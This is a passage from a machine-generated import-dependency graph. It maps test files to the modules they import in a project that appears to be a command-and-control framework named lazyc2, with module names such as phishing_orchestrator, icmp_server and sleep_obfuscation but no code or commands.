"source": "tests/test_security_hardening.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v2.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v2.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v2.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.resource_script"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.phishing_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.phishing_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v3.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "inspect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "inspect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v4.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "modules.icmp_server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "lazyc2.blueprints.addons"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "lazyc2.blueprints.api"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_hardening_v5.py", "target": "modules.phishing_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2.security"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2.security.services"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_lazyc2.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "modules.security_sanitizers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_security_sanitizers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_session_ops_command_set.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sessions_browser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sessions_browser.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sessions_browser.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sessions_browser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sessions_browser.py", "target": "cli.sessions_browser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "cli.commands.privilege_escalation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shell_semantics.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands.shellsys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands.shellsys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands.shellsys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_shellsys_command_set.py", "target": "cli.commands.shellsys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_short_url_file_containment.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_short_url_file_containment.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_short_url_file_containment.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_short_url_file_containment.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_short_url_file_containment.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_single_implementation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_single_implementation.py", "target": "core"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_single_implementation.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_single_implementation.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_single_implementation.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sleep_obfuscation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sleep_obfuscation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sleep_obfuscation.py", "target": "modules.sleep_obfuscation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_socks_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_socks_proxy.py", "target": "modules.socks_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_status_bar_operators.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_status_bar_operators.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_status_bar_operators.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_status_bar_operators.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_status_bar_operators.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_structured_logging.py", "target": "core.logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_surface_graph.py", "target": "cli.surface_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sync_doc_stats.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sync_doc_stats.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sync_doc_stats.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sync_doc_stats.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_sync_doc_stats.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_themes.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_themes.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_themes.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_themes.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_timeline_browser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_timeline_browser.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_timeline_browser.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_timeline_browser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_timeline_browser.py", "target": "cli.timeline_browser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tips_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tips_engine.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tips_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tips_engine.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tips_engine.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_toast_bus.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_trusted_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_trusted_proxy.py", "target": "lazyc2.security.trusted_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_splash.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_splash.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_splash.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_splash.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_splash.py", "target": "cli.splash"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_style.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_theme_command.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_theme_command.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_theme_command.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_theme_command.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", 